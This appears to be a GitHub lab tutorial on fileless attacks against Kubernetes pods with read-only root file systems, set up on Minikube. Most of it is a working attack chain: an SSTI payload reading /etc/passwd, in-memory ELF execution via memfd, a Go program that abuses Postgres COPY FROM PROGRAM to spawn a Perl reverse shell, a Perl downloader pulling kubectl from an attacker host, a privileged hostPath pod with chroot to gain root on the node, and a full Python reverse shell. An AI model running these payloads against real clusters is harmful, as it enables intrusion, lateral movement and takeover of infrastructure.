

# Kubernetes and Fileless Execution:
## Overcoming Read-Only Root File System Challenges


 **Table of content:**
 - [Lab Setup](#item-zero)
 - [Exploring the Read-Only Web Frontend](#item-one)
 - [Dealing with Read-Only File System](#item-two)
 - [Introduction to fee](#item-three)
 - [Interacting with postgesql](#item-five)
 - [Playing with kube-api insite a pod with `cluster-admin`](#item-six)
 
## Synopsis

In this tutorial, we'll explore the concept of fileless execution within Kubernetes environments, particularly focusing on pods deployed with read-only root file systems. This technique is crucial for scenarios where traditional file manipulation is restricted, offering an alternative method for executing tasks. Tom was here!

## Skills Requried
- Linux Enumeration
- Kubernetes Enumeration
- Elf x86 binary knowlage 

## Skills Learned
- Docker workflows
- In Memory Attacks
- Kubernetes defaults
- Kubernetes privilages escalations  

## Lab Setup:
<a id="item-zero"></a>
Docker and Minikube are used as the infrastructure to make the lab as portable as possible.

```sh
cd k8syamls/
make launch-minikube
make deploy
```
Get the ip and `NodePort` to connect on your minikube:
```sh
$ kubectl get svc -n frontend
NAME                   TYPE       CLUSTER-IP    EXTERNAL-IP   PORT(S)        AGE
app-nodeport-service   NodePort   10.104.55.4   <none>        80:30007/TCP   19h
```
In this example K8s assinged `30007` to the web app service. Test site is up with curl
```sh
$ curl -I -L http://192.168.64.18:30007
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Wed, 22 Nov 2023 22:41:44 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1833
Connection: close
```
<a id="item-one"></a>
## Step 1: Exploring the Read-Only Web Frontend
First, we access the web frontend and exploit a SSTI to gain a foot hold on the system. The text box is subject to a basic Template injection. 
We cant test injection for read:

```
a {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```
We see an error when trying to write a file.
```bash
touch hi.txt
touch: cannot touch 'hi.txt': Read-only file system
```

## Step 2: Enumerating our envioment 

By checking the environment variables we can deduce that we are in a Kubernetes environment. 
```bash
$ env
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
```

Observations:
* The environment variables suggest we're on a Kubernetes node.
* Standard paths are available, but no write access to the filesystem.

<a id="item-two"></a>

## Step 3: Dealing with Read-Only File System

(https://breakdance.github.io/breakdance/) shows how we can we can utilize tmpfs mounted filesystems for temporary file manipulation. We will be using the memfd syscall to create in memory elf64 binary files. Then execute those files without touching the file system. As we are not leaving any traces or files (IoC) on the file system. We will try to confine our actives in memory when possible.

Check what filesystems are mounted with tmpfs as paths may vary.
```sh
$ mount -t tmpfs
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
```
We can interact with `/dev/shm` for our purposes to execute scripts with python interpreter in running memory, even bypassing `noexec` flags associated with the filesystem.

`/dev/shm` will gernally be available for all pods on a Kuberntes work node by `default`.

We can see what version of python is available on the system with `python --version`

---
<a id="item-three"></a>
# Introduction to Fee: https://pypi.org/project/fee/ 
Execute ELF files on a machine without dropping an ELF.

Create a Docker image to convert our elf64 binaries into interperted code 
`Docker Image`:
```sh
FROM python:3

RUN pip install --user fee
```
---

Test fee by copying the `id` binary onto your local and converting it to python with `fee`
```sh
$ cp backend/postgres-deployment-85696c855-mr4c2:/usr/bin/id /tmp/kid
$ file /tmp/kid
/tmp/kid: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9db18ea3b88543130f870aa071d9216955c2a541, for GNU/Linux 3.2.0, stripped
```

Next run the fee docker image on the binary direct the `default` python output to a file
```sh
$ docker run -v /tmp/:/host -it localhost:5000/docker-fee:0.1 /bin/sh -c '/root/.local/lib/python3.11/site-packages/fee.py /host/kid'  > kid.py
```
Lets now test the command by directing the python script to STDIN of the frontend example app pods python interpreter:
```sh
$ cat kid.py | kubectl -n frontend exec -it app-6f85bcbff4-m6zht -- python3
Unable to use a TTY - input is not a terminal or the right kind of file
uid=1000(appuser) gid=1000(appuser) groups=1000(appuser)
```
If this works YAY! This workflow is going to be reused for all the tools. 

---
Notes:
* The binary needs to be compiled with the glibc equal or lesser
  - Get gcc version with `ldd --version` 
For a glibc version of 2.34 I'm using the `ubuntu:16.04` docker image to cp my bins.
* You may need to play with `fee's` final output
  - The in memory file descriptor is the last line of output 
  - `os.execle(p, 'myid', {})`
  - Arguments: fdesc ,'process name', {"env=variables"}
---

## Step 5: Interacting with a Discovered Postgres Server

<a id="item-five"></a>
After identifying a Postgres service via enviorment variables, we'll execute a postgres client binary writen in `go`:

Update the psqlrev.go script with your own listener ip and port.

Use the `fee` command for execution:

```sh
docker run -v /tmp/:/host -it localhost:5000/docker-fee:0.1 /bin/sh -c '/root/.local/lib/python3.11/site-packages/fee.py /host/psqlrev'  > psqlrev.py
```
## run the psqlrev.py and attempt to gain a reverse shell
```bash
cat psqlrev.py | kubectl -n frontend exec -it app-6f85bcbff4-m6zht -- python3
```
You should now be on the backend server!

----
## Step 6 
<a id="item-six"></a>
Now that we have laterally pivited to backend server that does not have a read-only mount we are going to pull `kubectl` command 
with perl from or attack host or from the interweb. We are using perl as our interpreter as python3 is not installed on postgres container. With diverse workloads we need many different tools.

```perl
#!/usr/bin/perl use strict;

use warnings;
use HTTP::Tiny;

my $url = 'http://<attacker ip>:45671/kubectl';
my $file = 'kubectl';
my $response = HTTP::Tiny->new->get($url);

if ($response->{success}) {
    open my $fh, '>', $file or die "Cannot open $file: $!";
    print $fh $response->{content}; close $fh;
 } else {
    die "Failed to get $url\n";
}
```

Once we can have kubectl installed and notice we can create pod we will create an attack pod to gain root one Kubernetes worker node.

## Setup a `bad` pod from Bishopfox in a oneliner
```sh
kubectl run everything-allowed-exec-pod --image=ubuntu --overrides='
{
  "apiVersion": "v1",
  "spec": {
    "hostNetwork": true,
    "hostPID": true,
    "hostIPC": true,
    "containers": [
      {
        "name": "everything-allowed-pod",
        "image": "ubuntu",
        "securityContext": {
          "privileged": true
        },
        "volumeMounts": [
          {
            "mountPath": "/host",
            "name": "noderoot"
          }
        ],
        "command": [ "/bin/sh", "-c", "--" ],
        "args": [ "while true; do sleep 30; done;" ]
      }
    ],
    "volumes": [
      {
        "name": "noderoot",
        "hostPath": {
          "path": "/"
        }
      }
    ]
  }
}' --labels=app=pentest --restart=Never
```

## Now exec it and chroot the host mount at /host to elevate to root on the worker node!
```sh
kubectl exec -it <badpod> -- /bin/sh -c 'chroot /host'
```
# Tools

## Postgres Reverse Shell
```go
package main

import (
    "database/sql"
    "strconv"
    "log"

    _ "github.com/lib/pq"
)

const (
    host     = "10.244.0.6"
    port     = 5432 // Default port for PostgreSQL
    user     = "postgres"
    password = ""
)

func main() {
    // Construct the connection string
    psqlInfo := "host=" + host + " port=" + strconv.Itoa(port) + " user=" + user + " password=" + password + " sslmode=disable"

    // Open a connection to the database
    db, err := sql.Open("postgres", psqlInfo)
    if err != nil {
        log.Fatal(err)
    }
    defer db.Close()

    // Check the connection
    err = db.Ping()
    if err != nil {
        log.Fatal(err)
    }

    // Execute SQL commands
    _, err = db.Exec(`DROP TABLE IF EXISTS cmd_exec;`)
    if err != nil {
        log.Fatal(err)
    }

    _, err = db.Exec(`CREATE TABLE cmd_exec(cmd_output text);`)
    if err != nil {
        log.Fatal(err)
    }
    _, err = db.Exec(`COPY cmd_exec FROM PROGRAM 'perl -e "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(1337,inet_aton(\"127.0.0.1\")))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"'`)
    if err != nil {
        log.Fatal(err)
    }

    log.Println("Commands executed successfully")
}
```
## Python 3 Reverse Shell
```python
import socket
import subprocess
import os

# Set the server's IP address and port number
SERVER_HOST = '127.0.0.1'
SERVER_PORT = 1337

# Create a socket object
s = socket.socket()

# Connect to the server
s.connect((SERVER_HOST, SERVER_PORT))

# Send a message to the server saying we've connected
s.send(str.encode("Connection established!"))

# Receive commands from the remote server and run on the local machine
while True:
    # Receive command from the server
    command = s.recv(1024).decode()

    # If the received command is exit, close the socket and exit
    if command.lower() == 'exit':
        s.close()
        break
    # Execute the command and retrieve the results
    output = subprocess.getoutput(command)
    # Send the results back to the server
    s.send(str.encode(output + "\n"))
```
## Perl Curl
```sh
#!/usr/bin/perl use strict;

use warnings;
use HTTP::Tiny;

my $url = 'http://192.168.178.67/kubectl';
my $file = 'kubectl';
my $response = HTTP::Tiny->new->get($url);

if ($response->{success}) {
    open my $fh, '>', $file or die "Cannot open $file: $!";
    print $fh $response->{content}; close $fh;
 } else {
    die "Failed to get $url\n";
}
```
## Conclusion

We've demonstrated fileless execution within a Kubernetes environment, highlighting techniques to navigate around read-only file systems and interact with network services.


## References 

| Tech | Link |
| ------ | ------ |
| Glibc | [https://trofi.github.io/posts/239-hacking-on-glibc.html] |
| fee | [https://pypi.org/project/fee/] |
| memfd_create | [https://0x00sec.org/t/super-stealthy-droppers/3715] |
| memfd_create | [https://x-c3ll.github.io/posts/fileless-memfd_create/] |
| Postgres RCE | [https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py] |
| BadPods | [https://bishopfox.com/blog/kubernetes-pod-privilege-escalation] |
